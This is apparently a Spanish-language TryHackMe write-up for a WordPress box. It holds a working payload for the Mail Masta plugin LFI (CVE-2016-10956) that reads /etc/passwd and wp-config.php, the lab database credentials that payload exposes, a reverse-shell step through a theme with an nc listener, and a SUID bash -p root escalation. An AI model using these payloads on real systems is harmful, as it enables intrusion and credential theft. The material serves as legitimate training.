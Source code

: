 ```yaml
---
layout: writeup
category: TryHackMe
chall_description: This box's intention is to help you practice several ways in exploiting a system. There is few intended paths to exploit it and few unintended paths to get root. Try to discover and exploit them all. Do not just exploit it using intended paths, hack like a pro and enjoy the box !
points: 160
solves: 2
tags: tryhackme ejptv2
date: 2024-08-23
comments: false
---
```


# Enumeration and Scanning

Primero de todos hacemos un escaneo de los puertos y sus servicios

![image](https://github.com/user-attachments/assets/197fa6d1-b90b-40b4-9b3c-af2cd5b40bbc)

### Puerto 80 (HTTP Server)

Seguimos con la enumeración y comenzamos con el puerto 80:

![image](https://github.com/user-attachments/assets/fb30bc7f-580a-4488-bbce-93669d6c0a2c)

Parece la típica página por defecto de servidores Apache. Enumeramos los directorios del servidor web:

    [+] Url:                     http://10.10.33.133/
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/local/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.6
    [+] Timeout:                 10s
    ===============================================================
    Starting gobuster in directory enumeration mode
    ===============================================================
    /wordpress            (Status: 301) [Size: 316] [--> http://10.10.33.133/wordpress/]
    /hackathons           (Status: 200) [Size: 197]
    

Hay un directorio wordpress. Vemos lo que tiene:

![image](https://github.com/user-attachments/assets/fc0ef621-48b0-4c4c-b0d3-65ebcfad41d1)

Parece una web hecha con Wordpress. Le lanzamos WPScan para saber plugins vulnerables, temas vulnerables y enumerar usuarios y conseguimos sacar un usuario:

    [+] elyana
     | Found By: Author Posts - Author Pattern (Passive Detection)
     | Confirmed By:
     |  Rss Generator (Passive Detection)
     |  Wp Json Api (Aggressive Detection)
     |   - http://10.10.29.33/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
     |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     |  Login Error Messages (Aggressive Detection)

Probamos bruteforce al login de wordpress y no obtuvimos nada. Volvemos a lanzar WPScan para ver si encontramos alguna vulnerabilidad de los plugins, y encontramos que de Mail Masta 1.0 encontramos 2 vulnerabilidades interesantes:

    [+] mail-masta
     | Location: http://10.10.168.165/wordpress/wp-content/plugins/mail-masta/
     | Latest Version: 1.0 (up to date)
     | Last Updated: 2014-09-19T07:52:00.000Z
     |
     | Found By: Urls In Homepage (Passive Detection)
     |
     | [!] 2 vulnerabilities identified:
     |
     | [!] Title: Mail Masta <= 1.0 - Unauthenticated Local File Inclusion (LFI)
     | [!] Title: Mail Masta 1.0 - Multiple SQL Injection

# Vulnerability assesment

### CVE-2016-10956

 > *The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation*

Esta vulnerabilidad ataca al pathing "wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=*file*" a través del parámetro pl.
Probamos a acceder a /etc/passwd:

![image](https://github.com/user-attachments/assets/19155f1b-5d52-43df-aeae-8c5cb1fa1d3a)

Le pasamos el siguiente payload:

* http://ip/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php *

Para obtener el contenido de wp-config en base64. Procedemos a su decodificación:

![image](https://github.com/user-attachments/assets/586fe8d4-717d-44b3-b87b-1ff6bae196d6)

Y vemos las credenciales de acceso a la base de datos:

    /** The name of the database for WordPress */
    define( 'DB_NAME', 'wordpress' );
    
    /** MySQL database username */
    define( 'DB_USER', 'elyana' );
    
    /** MySQL database password */
    define( 'DB_PASSWORD', 'H@ckme@123' );
    
    /** MySQL hostname */
    define( 'DB_HOST', 'localhost' );

Probamos a utilizar esas credenciales para acceder al panel de Wordpress:

![image](https://github.com/user-attachments/assets/c44e1a6d-853c-4cb6-9f71-cf6f94d68de6)

Con este acceso, ya podemos crear una PHP Reverse Shell en uno de los temas y con ello acceder al sistema:

![image](https://github.com/user-attachments/assets/262c4cb3-942d-4fb8-94ee-dad037825391)

Activamos el listener en nc:

![image](https://github.com/user-attachments/assets/b2e7f312-e483-4180-8d53-173599d07d8c)

Y accedemos a la web... ¡obtenemos acceso al sistema!

![image](https://github.com/user-attachments/assets/20e5ce8b-3a58-4752-89c6-0897a5fa7cfb)

Pero para acceder a la flag de usuario, necesitamos cambiar de usuario, ya que somos www-data y necesitamos ser mínimo el usuario elyana.
Vamos a ver si podemos escalar privilegios directamente y desde root acceder a las dos flags.

# Privilege escalation

Comenzamos haciendo la enumeración básica de ficheros con permisos SUID:

    bash-4.4$ find / -perm /4000 2>/dev/null
    find / -perm /4000 2>/dev/null
    /bin/mount
    /bin/ping
    /bin/fusermount
    /bin/su
    /bin/bash
    /bin/chmod
    /bin/umount
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/openssh/ssh-keysign
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    /usr/lib/snapd/snap-confine
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/bin/newuidmap
    /usr/bin/pkexec
    /usr/bin/lxc
    /usr/bin/traceroute6.iputils
    /usr/bin/newgidmap
    /usr/bin/chfn
    /usr/bin/chsh
    /usr/bin/newgrp
    /usr/bin/sudo
    /usr/bin/socat
    /usr/bin/gpasswd
    /usr/bin/at
    /usr/bin/passwd

Vemos un fichero interesante con el cual la escalada de privilegios es simple. Ese fichero es /bin/bash. Lo ejecutamos tal cual, y con eso ya somos root:

    bash-4.4$ /bin/bash -p
    /bin/bash -p
    bash-4.4# whoami
    whoami
    root
    bash-4.4#

Y ya desde root podemos acceder a la flag de user.txt en /home/elyana/user.txt y la de root en /root/root.txt
